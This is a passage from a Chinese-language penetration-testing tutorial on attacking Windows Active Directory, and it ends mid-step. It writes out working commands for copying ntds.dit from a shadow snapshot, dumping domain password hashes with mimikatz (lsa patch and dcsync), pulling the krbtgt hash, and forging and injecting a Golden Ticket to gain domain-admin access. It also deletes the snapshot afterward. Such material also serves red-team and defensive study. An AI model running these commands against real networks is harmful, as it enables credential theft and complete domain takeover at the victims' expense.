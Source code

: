 Copy 文件副本：

copy C:\$SNAP_201911211122_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

将 ntds.dit 文件拷贝到本地利用 impacket 脚本 dump 出 Hash：

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/edd5b1bcee6341aeb0f10d979838f559.jpeg)

最后记得卸载删除快照：

ntdsutil snapshot "unmount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit

ntdsutil snapshot "delete {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit

3.4.1mimikatz 导出域内 hash

mimikatz 有两种方式可以导出域内 hash。

1、直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 出密码哈希。

mimikatz log "privilege::debug" "lsadump::lsa /patch" exi

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/37356e2bbfe34447b7f9cd840573794f.jpeg)

另外一种方式是通过 dcsync，利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码哈希值，可以在域管权限下执行获取。

lsadump::dcsync /domain:test.com /all /csv

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/1f35bdd573844156b2bf608452efe647.jpeg)

也可以制定获取某个用户的 hash：

lsadump::dcsync /domain:test.com /user:test

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/114bba98995d4c6e8b48ea9f3a3d1765.jpeg)

3.4.2 黄金票据

域中每个用户的 Ticket 都是由 krbtgt 的密码 Hash 来计算生成的，因此只要获取到了 krbtgt 用户的密码 Hash，就可以随意伪造 Ticket，进而使用 Ticket 登陆域控制器，使用 krbtgt 用户 hash 生成的票据被称为 Golden Ticket，此类攻击方法被称为票据传递攻击。

首先获取 krbtgt 的用户 hash:

mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/94476190a70940e6844721ca62bb96b4.jpeg)

在普通域成员上执行 dir 命令提示 “拒绝访问”：

之后利用 mimikatz 生成域管权限的 Golden Ticket，填入对应的域管理员账号、域名称、sid 值，如下：

kerberos::golden /admin:administrator /domain:ABC.COM /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/f1af8ac797144f4ba70fe652523c9748.jpeg)

导入刚才生成的票据：

kerberos::ptt test.kiribi

导入成功后，可以获取域管权限：
